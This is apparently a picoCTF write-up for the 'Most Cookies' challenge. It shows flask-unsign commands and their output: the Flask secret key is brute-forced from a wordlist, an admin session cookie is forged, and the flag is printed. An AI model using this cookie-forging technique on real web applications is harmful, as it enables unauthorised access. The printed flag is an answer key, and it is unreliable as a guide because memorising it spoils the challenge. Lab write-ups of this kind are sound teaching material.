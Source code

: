 As hinted in the challenge, flask cookies are not secure. So on searching for ways to access the cookies, I found [flask-unsign](https://pypi.org/project/flask-unsign/) which can be used to decode and encode flask cookies. The flask cookie is signed using a secret key which is stored in the flask app. So we need to find the secret key to decode the cookie. The secret key can be found using a brute force attack. The wordlist used for the brute force attack is a list given in the file [server.py](./server.py)
```py
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```

We can use the following command to decode the cookie and then brute force the secret key.

```ps
(cookiesvenv) PS C:\Users\Arnav\Documents\cryptoniteTP> flask-unsign --decode --server 'http://mercury.picoctf.net:53700/'
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZVIY2w.30VdeN1dZlI3tFiXLex1ExNBV-k
{'very_auth': 'blank'}
(cookiesvenv) PS C:\Users\Arnav\Documents\cryptoniteTP> flask-unsign -u -c 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZVIY2w.30VdeN1dZlI3tFiXLex1ExNBV-k' --wordlist Web\mostcookies\wordlist.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
(cookiesvenv) PS C:\Users\Arnav\Documents\cryptoniteTP> flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZVIZHQ.78A_Xj3Xnbb0n6tTn5AB-Pjm69E
```

Now we can use the cookie to get the flag.

![Get flag](image.png)

Flag: `picoCTF{pwn_4ll_th3_cook1E5_3646b931}`